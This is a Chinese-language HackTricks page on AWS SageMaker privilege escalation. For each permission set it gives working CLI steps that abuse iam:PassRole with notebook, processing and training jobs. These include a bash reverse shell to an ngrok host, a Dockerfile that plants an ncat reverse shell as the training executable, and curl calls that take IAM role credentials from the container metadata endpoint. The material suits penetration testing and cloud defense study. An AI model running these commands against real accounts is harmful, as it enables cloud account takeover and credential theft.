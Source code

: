 # AWS - Sagemaker提权

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## sagemaker

### `iam:PassRole`，`sagemaker:CreateNotebookInstance`，`sagemaker:CreatePresignedNotebookInstanceUrl`

开始创建一个带有IAM角色的笔记本：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
以下是包含`NotebookInstanceArn`字段的响应，其中将包含新创建的笔记本实例的ARN。然后，我们可以使用`create-presigned-notebook-instance-url` API生成一个URL，以便在笔记本实例准备就绪后访问它：
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
访问浏览器中的URL，单击右上角的“打开JupyterLab”，然后滚动到“启动器”选项卡，在“其他”部分下，单击“终端”按钮。

现在可以访问IAM角色的元数据凭据。

**潜在影响：** 特权升级到指定的Sagemaker服务角色。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

如果已经在其上运行Jupyter **笔记本**，您可以使用`sagemaker:ListNotebookInstances`列出它们（或以任何其他方式发现它们）。您可以**为它们生成URL，访问它们，并像前一种技术中指示的那样窃取凭据**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在影响:** 特权升级至附加的Sagemaker服务角色。

### `sagemaker:CreateProcessingJob,iam:PassRole`

拥有这些权限的攻击者可以使Sagemaker执行一个附加了Sagemaker角色的处理作业。攻击者可以指定在AWS托管的ECS账户实例中运行的容器的定义，并窃取附加的IAM角色的凭据。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在影响:** 特定的Sagemaker服务角色权限提升。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

拥有这些权限的攻击者将能够创建一个训练作业，在其中**运行任意容器**并附加一个**角色**。因此，攻击者将能够窃取该角色的凭据。

{% hint style="warning" %}
与之前的情况相比，这种情景更难利用，因为您需要生成一个Docker镜像，该镜像将直接将反向shell或凭据发送给攻击者（您无法在训练作业的配置中指定启动命令）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在影响:** 特权升级至指定的Sagemaker服务角色。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

拥有这些权限的攻击者（可能）能够创建一个**超参数调整作业**，在其中**运行任意容器**，并附加一个**角色**给它。\
_由于时间不足，我还没有进行利用，但看起来与先前的利用方式相似，欢迎提交一个带有利用细节的PR。_

# 参考
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
